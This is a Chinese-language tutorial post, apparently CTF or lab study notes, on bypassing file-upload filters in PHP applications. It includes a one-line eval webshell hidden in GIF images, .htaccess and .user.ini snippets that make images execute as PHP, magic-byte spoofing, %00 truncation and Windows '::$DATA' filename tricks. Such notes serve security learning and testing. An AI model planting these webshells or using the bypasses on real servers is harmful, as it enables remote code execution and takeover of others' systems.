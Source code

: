 ```yaml
---
title: 文件上传绕过技巧
date: '2022/1/23 23:15:01'
categories:
  - - WEB安全
    - 文件上传和文件包含
description: 文件上传绕过技巧的部分总结
abbrlink: bf8e0327
tags:
---
```


# 文件上传绕过技巧

## 常出现函数

> （1）trim() 函数移除字符串两侧的空白字符或其他预定义字符。
    这里移除的是两侧的空白字符
  （2）deldot() 删除文件名末尾的点
  （3）strrchr() 函数查找字符串在另一个字符串中最后一次出现的位置，并返回从该位置到字符串结尾的所有字符。
  （4）str_ireplace() 函数替换字符串中的一些字符（不区分大小写）
  （5）strrpos() 函数查找字符串在另一字符串中最后一次出现的位置
  （6）getimagesize()函数功能会对目标文件的16进制去进行一个读取，读取头几个字符串是否符合图片的要求。getimagesize()返回结果中有文件大小和文件类型。
  （7）exif_imagetype(),它是读取一个图像的第一个字节并检查其签名。也是可以通过伪造图片头来进行绕过的
也可以直接制作gif图片马进行上传，再进行包含利用

> 如果用getimagesize()函数来获取类型，从而判断是否是图片的话，会有被绕过的问题，因为图片头可以被伪造。
可以伪造gif的图片头
也可以直接制作gif图片马进行上传，再进行包含利用

> 如果用exif_imagetype()函数来获取类型，从而判断是否是图片的话，会有被绕过的问题，
可以通过伪造图片头来进行绕过
也可以直接制作gif图片马进行上传，再进行包含利用

## 文件格式修改绕过
Content-Type的值修改改为：

    image/png
> image/jpeg、image/png、image/gif 三种都是图片的

## 文件幻术头绕过

图像相关的信息检测常用getimagesize( )函数。每种类型的图片内容最开头会有一个标志性 的头部，这个头部被称为文件幻术。

jpg对于的前面的16进制字符是
>FFD8FFE000104A464946

png对应的是
>89504E47

gif对应的是
>474946383961

也可以直接把16进制转成字符加在包的首部
比如说利用文件幻术头绕过进行上传.user.ini文件
```
GIF89a
auto_prepend_file=shell.jpg
```


## 常见的PHP后缀绕过
php2, php3, php4, php5, phps, pht, phtm, phtml, phps

## 后缀名大小写绕过
pHP, pHp

## 双写绕过
如果使用了```str_ireplace()```过滤，可以构造```pphphp```类似的后缀名进行绕过

## %00截断绕过
白名单过滤，只允许上传'jpg','png','gif'的情况
如果上传路径是可以控制的，考虑利用%00截断，来上传木马
> <font color=blue>注意：%00截断想要利用成功，php版本要小于5.3.4（高版本php官方修复了这个漏洞），php的magic_quotes_gpc要为OFF状态。</font>

（1）GET方式利用，直接在可控的路径后面加上文件名，然后使用%00截断

![image](https://gitee.com/black_while/save_image/raw/master/file_upload/upload_labs_master/upload_labs_pass_12.png)

（2）POST方式利用，直接在可控的路径后面加上文件名，然后使用%00截断
因为POST不会进行自动解码，所以在16进制中进行修改

![image](https://gitee.com/black_while/save_image/raw/master/file_upload/upload_labs_master/upload_labs_pass_13.png)

## 使用图片马

制作gif图片马进行上传，然后利用文件包含漏洞进行利用

> gif图片马制作
用```010editor```打开gif图片，然后找个位置粘入php语句
比如说使用一句话```<?php @eval($_POST['shell']);?>```
或者直接调用system函数```<?php system("cat /flag");?>```

#### 注：图片马的二次渲染问题

先上传gif文件，在文件末尾加上php一句话，然后下载上传的文件，用010editor对比看看哪里不变的，在不变的地方插入php一句话，再次上传就可以成功


## 利用```.htaccess```文件
```
<FilesMatch "shell.jpg">
 
SetHandler application/x-httpd-php
 
</FilesMatch>
```
上面这个代码是把shell.jpg当成php解析
```
SetHandler application/x-httpd-php
```
上面这个代码是所有文件都会当成php来解析
两个方式都可以

## 竞争上传问题
burpsuite直接爆破


## 利用window操作系统特性

>（1）后缀名后面加```.```

利用后缀名后面加一个```.```的方法，比如```.php.```，绕过黑名单，可以成功上传
但是因为windows操作系统的原因，文件后缀名最后的点也会被删除
>（2）后缀名后面加空格

利用后缀名后面加一个空格的方法，比如```filename="shell.php "```，绕过黑名单，可以成功上传
但是因为windows操作系统的原因，文件后缀名最后的空格也会被删除
>（3）后缀名后面加```::$DATA```

如果文件名+```::$DATA```，会把```::$DATA```之后的数据当成文件流处理,不会检测后缀名，且保持```::$DATA```之前的文件名
于是上传文件名```filename="shell.php::$DATA"```，绕过黑名单，可以成功上传